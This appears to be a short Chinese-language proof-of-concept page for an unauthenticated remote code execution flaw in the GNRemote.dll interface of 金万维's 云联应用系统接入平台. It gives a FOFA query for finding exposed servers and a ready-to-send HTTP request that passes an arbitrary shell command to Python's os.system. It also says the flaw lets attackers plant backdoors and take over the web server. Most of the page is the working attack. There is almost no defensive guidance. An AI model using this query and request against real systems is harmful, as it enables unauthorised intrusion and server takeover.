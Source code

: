 # 金万维-云联应用系统接入平台GNRemote.dll前台存在RCE漏洞

金万维-云联应用系统接入平台 GNRemote.dll接口存在远程命令执行漏洞，未经身份验证的远程攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

## fofa

```yaml
title="云联应用系统接入平台"
```

## poc

```yaml
GET /GNRemote.dll?GNFunction=CallPython&pyFile=os&pyFunc=system&pyArgu=执行的命令 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![1fd71786e431416b8cdfa2cbac8e92b4.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407262118418.png)
